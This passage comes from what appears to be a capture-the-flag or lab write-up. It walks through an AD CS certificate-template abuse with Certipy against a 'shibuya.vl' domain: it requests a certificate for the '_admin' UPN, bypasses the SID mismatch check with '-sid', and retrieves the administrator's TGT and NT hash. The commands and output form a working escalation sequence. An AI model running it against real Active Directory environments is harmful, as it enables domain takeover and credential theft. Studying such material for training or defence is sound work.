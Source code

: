 Change the key size and request again
```
└─$ certipy req -u nigel.mills@shibuya.vl -p '<REDACTED>' -dc-ip 10.10.84.227 -upn '_admin@shibuya.vl' -ca shibuya-AWSJPDC0522-CA -template ShibuyaWeb -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with UPN '_admin@shibuya.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to '_admin.pfx'

```

We have an error
```
└─$ certipy auth -pfx '_admin.pfx' -dc-ip 10.10.84.227
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: _admin@shibuya.vl
[*] Trying to get TGT...
[-] Object SID mismatch between certificate and user '_admin'
```

It seems like the error is due to [CBA patch](https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16). There was already [PR](https://github.com/ly4k/Certipy/pull/84) for this case, so we need to use `-sid` option. Specify `sid` of `_admin` user
```
└─$ certipy req -u nigel.mills@shibuya.vl -p '<REDACTED>' -dc-ip 10.10.84.227 -upn _admin@shibuya.vl -ca shibuya-AWSJPDC0522-CA -template ShibuyaWeb -key-size 4096 -sid 'S-1-5-21-87560095-894484815-3652015022-500'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 17
[*] Got certificate with UPN '_admin@shibuya.vl'
[*] Certificate object SID is 'S-1-5-21-87560095-894484815-3652015022-500'
[*] Saved certificate and private key to '_admin.pfx'
```

Now authentication with certificate works
```
└─$ certipy auth -pfx '_admin.pfx' -dc-ip 10.10.84.227                                                                                                                                                                                  
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: _admin@shibuya.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to '_admin.ccache'
[*] Trying to retrieve NT hash for '_admin'
[*] Got hash for '_admin@shibuya.vl': aad3b435b51404eeaad3b435b51404ee:<REDACTED>
```
